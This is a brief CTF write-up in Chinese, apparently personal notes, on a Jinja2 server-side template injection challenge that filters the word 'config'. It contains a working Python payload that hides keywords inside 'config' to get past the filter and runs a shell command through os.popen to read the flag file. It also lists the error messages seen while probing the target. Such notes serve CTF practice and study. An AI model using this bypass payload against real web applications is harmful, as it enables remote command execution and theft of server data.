tags:: [[CTF/SSTI/Jinja]]

- # 思路
	- 打带过滤的jinja2
	- 题目会替换config等关键词
	- payload
		- ```python
		  import html
		  
		  r = base_post(url, data = {
		      "name": "{%print(lipsum.__globals__.__buconfigiltins__.evaconfigl('__impconfigort__(\"oconfigs\").popconfigen(\"cat /flag_1s_Hera\").reconfigad()'))%}"
		  })
		  bs = BeautifulSoup(r.text, "html.parser")
		  text = bs.select("h1")[0].text
		  text = html.unescape(text)
		  print(text)
		  ```
- # 施工中
	- 貌似是SSTI
	- 测试
		- `{{`或`}}`
			- 错误`Parse error: syntax error, unexpected T_STRING, expecting '{' in \var\WWW\html\test.php on line 13`
		- 一个Jinja的payload
			- flask的`Internal Server Error`
		-